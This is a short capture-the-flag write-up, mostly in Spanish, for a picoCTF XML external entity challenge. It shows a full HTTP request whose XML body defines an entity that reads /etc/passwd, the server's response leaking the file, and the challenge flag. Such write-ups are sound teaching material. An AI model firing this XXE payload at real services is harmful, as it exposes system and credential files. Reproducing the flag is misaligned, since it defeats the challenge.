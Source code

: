 ## Descripción
TThe web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

Hints:
1. XML external entity Injection

## Solución 

Con Burp analizamos las peticiones realizadas.

Request:

~~~
POST /data HTTP/1.1
Host: saturn.picoctf.net:63775
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:63775/
Content-Type: application/xml
Content-Length: 134
Origin: http://saturn.picoctf.net:63775
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
~~~

Response:
~~~
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Tue, 15 Apr 2025 20:41:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
~~~

~~~
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
~~~
## Notas adicionales 

## Referencias